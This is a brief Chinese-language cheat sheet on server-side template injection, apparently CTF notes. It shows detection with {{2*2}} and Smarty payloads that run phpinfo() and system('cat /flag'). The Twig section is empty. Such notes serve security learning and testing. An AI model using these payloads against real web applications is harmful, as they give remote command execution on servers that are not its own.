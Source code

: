 # SSTI_injection

---

**SSTI模板注入**

```
smarty模板引擎
twig模板引擎
```

**判断注入**

```
参数：user=1                              回显：1
参数：user={{2*2}}                        回显：4
```

**smarty模板引擎**

```
参数：user={if phpinfo()}{/if}            回显：phpinfo页面
参数：user={if system('cat /flag')}{/if}  回显：执行命令cat /flag
```

**twig模板引擎**

```

```

